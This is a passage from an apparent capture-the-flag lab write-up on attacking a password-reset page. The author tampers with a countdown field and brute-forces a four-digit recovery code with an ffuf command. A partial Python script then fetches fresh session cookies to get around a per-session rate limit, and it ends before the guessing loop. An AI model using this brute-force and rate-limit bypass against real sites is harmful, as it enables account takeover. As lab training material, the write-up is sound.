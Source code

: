```javascript
    let timerElement = document.getElementById("countdown");
    const hiddenField = document.getElementById("s");
    let interval = setInterval(function() {
        countdownv--;
        hiddenField.value = countdownv;
        if (countdownv <= 0) {
            clearInterval(interval);
            //alert("hello");
            window.location.href = 'logout.php';
        }
        timerElement.textContent = "You have " + countdownv + " seconds to enter your code.";
    }, 1000);
}
```

I capture the post request to `/reset_password.php` with burp and change it from `recovery_code=4444&s=175` to `recovery_code=4444&s=50000`. This doesnt actually make the time you get to guess longer.

```shell
ffuf -w pins.txt:PIN -u http://10.10.226.3:1337/reset_password.php -X POST -d "recovery_code=PIN&s=49950" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=tckgcf20lul9hkikqc5sqhv7re" -mc all -t 50
```
Running this results in `Rate limit exceeded. Please try again later.` My bad.  

I looked in the response and see this header: `Rate-Limit-Pending: 4`. When it hits 0 the rate limit is exceeded and you cannot access the page anymore.

Through testing you can notice the `Rate-Limit-Pending` header going from 8 to 0. Again when it hits 0 you have no more guesses and are locked out. This is tied to your `PHPSESSID`. So each session gets 7 guesses. 

I run this script to get the code:
```python
#!/usr/bin/env python3
import subprocess

BASE_URL = "http://10.10.179.150:1337"

def get_phpsessid():
    # get new PHPSESSID
    reset_command = [
        "curl", "-s", "-X", "POST", f"{BASE_URL}/reset_password.php",
        "-d", "email=tester%40hammer.thm",
        "-H", "Content-Type: application/x-www-form-urlencoded",
        "-v"
    ]
    response = subprocess.run(reset_command, capture_output=True, text=True)

    # get PHPSESSID from response
    for line in response.stderr.splitlines():
        if "Set-Cookie: PHPSESSID=" in line:
            return line.split("PHPSESSID=")[1].split(";")[0]
    return None

def submit_recovery_code(phpsessid, recovery_code):
    recovery_command = [
        "curl", "-s", "-X", "POST", f"{BASE_URL}/reset_password.php",
        "-d", f"recovery_code={recovery_code}&s=180",
        "-H", "Content-Type: application/x-www-form-urlencoded",
        "-H", f"Cookie: PHPSESSID={phpsessid}"
    ]
    response = subprocess.run(recovery_command, capture_output=True, text=True)
    return response.stdout

```